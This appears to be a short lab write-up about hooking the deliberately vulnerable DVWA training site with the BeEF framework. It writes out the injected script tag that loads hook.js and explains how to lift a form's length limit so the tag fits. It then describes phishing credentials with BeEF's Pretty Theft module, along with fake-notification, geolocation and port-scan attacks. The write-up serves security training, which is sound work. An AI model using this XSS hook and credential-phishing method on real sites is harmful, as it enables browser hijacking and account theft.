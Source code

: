 ## "Hooking the DVWA Website via BeEF"

### 1. Successfully "hooked" URL 192.168.13.25 on port 80 / Firefox

![pic](hook-1.PNG)  

**NOTE: the payload required to "hook" the DVWA website requires injecting a script. However the script (script src="http://127.0.0.1:3000/hook.js"></script) has to many words to be fully pasted into the message. In-order to fix this limitation, you must change setting in the Inspect Element. Specifically the textarea name / maxlength from 50 to 75.**

### [Picture of script too short](hook-2.PNG) 

### [Picture of script length correct](hook-500.PNG)

### 2. Launching the Pretty Theft Attack

From the BeEF Control Panel: 

* Click Commands
* Click on Social Engineering
* Click Pretty Theft

![pic](hook-3.PNG) 


* Victim entered the following: 

    A) Email: Rob1@fake.com

    B) Password: 12345678

    ![pic](hook-4.PNG) 

* You can also see what the victim entered for EMAIL and PASSWORD in the LOGS TAB:

    ![pic](hook-5.PNG) 

* Picture of the attack from Linux Command Line

    ![pic](hook-6.PNG) 

### NOTE: From the pictures above you can see that the attack was SUCCESSFULL

**A) Example of a SUCCESSFULL Fake Notification Attack**

![pic](hook-7.PNG) 

 **B) Example of a SUCCESSFULL Get Geolocation (Third Party) Attack**

![pic](hook-8.PNG)

 **C) Example of a SUCCESSFULL Port Scanner Attack**

![pic](hook-9.PNG)

